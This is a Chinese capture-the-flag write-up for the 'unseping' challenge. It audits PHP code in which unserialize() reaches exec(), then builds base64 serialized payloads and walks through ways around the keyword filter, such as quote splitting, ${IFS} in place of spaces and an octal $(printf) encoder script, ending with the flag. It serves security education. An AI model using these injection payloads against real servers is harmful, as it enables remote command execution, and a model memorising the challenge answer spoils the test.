





## unseping

代码审计

```php
<?php
highlight_file(__FILE__);

class ease{
    
    // 构造函数 传参 method 和 args
    private $method;
    private $args;      
    function __construct($method, $args) {    
        $this->method = $method;
        $this->args = $args;
    }
    
    // 析构函数 析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。
    // 该方法检测ping是否在$method中，并调用了名为$method的方法，且以数组$arg中的值作为参数。
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            // 调用用户定义的函数，并使用一个数组作为参数列表。
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
    
    //  该方法的结构为将输入参数作为外部命令进行执行，并返回输出结果。
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }
    
    
    //   以上析构函数 与 ping 函数 实现了作为一个webshell的基本条件。
    
    
    // preg_match_all 用于在字符串中匹配正则表达式的所有匹配项。
    // $pattern：正则表达式的模式字符串，用于匹配目标字符串。
    // $subject：要搜索的目标字符串。
    // $matches（可选）：一个引用数组，用于存储匹配结果
    // 返回匹配的总数。
    
    function waf($str){
    // 判断 str 中 ! 匹配的总数。 匹配数为0 才能返回 原有str
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }

    // wakeup 魔术函数 
    // unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。 
    // __wakeup() 经常用在反序列化操作中，例如重新建立数据库连接，或执行其它初始化操作。 

    // 反序列化的时候 对 args 中的 每个值 进行 waf 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

// 通过POST 接收数据
$ctf=@$_POST['ctf'];
// 反序列化
@unserialize(base64_decode($ctf));
?>
```

## 反序列化 构造 与 析构函数
 序列化和反序列化时 都会 调用__destruct()


* 结合源码，析构函数 method 为ping，然后在ping 函数中传入 args，ping函数中exec实现任意代码执行
* wakeup 函数 实现waf 功能，过滤掉关键字符，需绕过

### 本地构造
本地构造 ease 类 并进行序列化与base64编码。
```
<?php
class ease
{
	private $method;
	private $args;

	function __construct($method, $args)
	{
		$this->method = $method;
		$this->args = $args;
	}
}

$a = new ease("ping",array('l""s'));
$b = serialize($a);
var_dump($b);
echo'</br>';
echo base64_encode($b);
?>

输出：
string(85) "O:4:"ease":2:{s:12:"easemethod";s:4:"ping";s:10:"easeargs";a:1:{i:0;s:4:"l""s";}}"
Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czo0OiJsIiJzIjt9fQ==
```
Burupsuit 
* 修改POST，
* 增加行 Content-Type: application/x-www-form-urlencoded
* 通过ctf传值  ctf= Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czo0OiJsIiJzIjt9fQ==

可以看到  存在 flag_1s_here目录



继续构造
* new ease("ping",array('l""s${IFS}f""lag_1s_here'));


可以看到 flag_831b69012c67b35f.php


使用 cat 查看 flag
```
cat flag_1s_here/flag_831b69012c67b35f.php
```

###  绕过姿势
分析源码 会存在以下过滤
```
|，&，;，空格，/，cat，flag，tac，php，ls
```
* ls 引号绕过 'l""s'   构造   array('l""s')。 发现
* 空格过滤 ${IFS} 
* $(printf ) 命令替换
* /是被过滤掉的，可以转成八进制的ASCII码,在这里我写了一个python

```python
def encode_octal(string):

    print(string)
    # ASCII
    print("AsicII")
    for i in string:
        print(ord(i), end="")
    # 只显示八进制
    print("\n八进制")
    for i in string:
        print(oct(ord(i)).replace("0o", "\\"), end="")  # \表示转义     \\ 标识 \

    # 显示Linux八进制payload
    print("\nlinux payload")
    payload = '$(printf${IFS}"'
    for i in string:
        payload += oct(ord(i)).replace("0o", "\\")

    payload += '")'
    print(payload)


if __name__ == '__main__':
    str1 = "cat flag_1s_here/flag_831b69012c67b35f.php"
    encode_octal(str1)
    str2 = "ls -l"
    encode_octal(str2)

```

脚本输出
```
cat flag_1s_here/flag_831b69012c67b35f.php
AsicII
9997116321021089710395491159510410111410147102108971039556514998545748495099545598515310246112104112
八进制
\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160
linux payload
$(printf${IFS}"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")
ls -l
AsicII
1081153245108
八进制
\154\163\40\55\154
linux payload
$(printf${IFS}"\154\163\40\55\154")
```
通过命令替换 执行 ping 函数中的 exec（cat flag_1s_here/flag_831b69012c67b35f.php）


继续构造

```
$a = new ease("ping",array('$(printf${IFS}"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")'));
```

得到flag

##  flag
cyberpeace{89b4be8b39a727ab2d6bc1f893545785}